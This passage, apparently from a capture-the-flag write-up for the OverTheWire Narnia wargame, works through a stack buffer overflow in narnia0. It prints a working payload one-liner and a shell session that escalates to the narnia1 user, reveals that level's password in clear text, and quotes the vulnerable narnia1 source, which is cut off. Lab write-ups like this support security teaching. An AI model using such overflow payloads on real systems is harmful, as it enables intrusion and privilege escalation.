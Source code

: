     End of assembler dump.

As one can see, at (1) an assignment of the address referenced by ebp-0x8 
is happening with value 0x41414141 and at (2) this specific value is checked 
against 0xdeadbeef. If the comparison is true, a shell is spawned, which is 
the flow we need to trigger. So [ebp-0x8] has to contain 0xdeadbeef.

After running the program inside gdb and providing this input

    AAAABBBBCCCCDDDDEEEEFFFFGGGG

we notice that the value inside ebp-0x8 is 0x46464646 which is `FFFF`. Thus, our
padding is `lengthOf("AAAABBBBCCCCDDDDEEEE")` bytes long which is equal to 20. 
After that, the `deadbeef` bytes need to be appended, in order to trigger the 
shell spawning. The below line of shell code aids us for this purpose.

    (echo -e "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde"; cat;)

The output of the above command needs to be provided as input to the program `narnia0`. 
So, after running it, one can grab the password for the next level.

    narnia0@gibson:/narnia$ mkdir /tmp/testDirectory && touch /tmp/testDirectory/exploit0.sh
    narnia0@gibson:/narnia$ echo "(echo -e "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde"; cat;)" > /tmp/testDirectory/exploit0.sh
    narnia0@gibson:/narnia$ chmod +x /tmp/testDirectory/exploit0.sh
    narnia0@gibson:/narnia$ /tmp/testDirectory/exploit0.sh | ./narnia0 
    Correct val's value from 0x41414141 -> 0xdeadbeef!
    Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
    val: 0xdeadbeef
    id
    uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
    cat /etc/narnia_pass/narnia1
    WDcYUTG5ul

Password: **WDcYUTG5ul**


## narnia1

After connecting to the specific level with `ssh` by typing
    *ssh narnia1@narnia.labs.overthewire.org -p 2226* 
with password 
    *WDcYUTG5ul*

one can find the code for `narnia1` binary right below:

    #include <stdio.h>

    int main(){
        int (*ret)();

        if(getenv("EGG")==NULL){ /*If the "EGG" env var is empty then*/
            printf("Give me something to execute at the env-variable EGG\n");
            exit(1); /*And then exit*/
        }

        printf("Trying to execute EGG!\n");
        ret = getenv("EGG"); /*Assign the contents of EGG to a var called ret*/
        ret(); /*Execute ret*/


[REF_1]: http://shell-storm.org/shellcode/files/shellcode-607.html
[REF_2]: https://security.stackexchange.com/questions/184842/shellcode-does-not-execute-as-the-owner
[REF_3]: https://nicolagatta.blogspot.com/2019/05/overthewireorg-narnia-level-2-writeup.html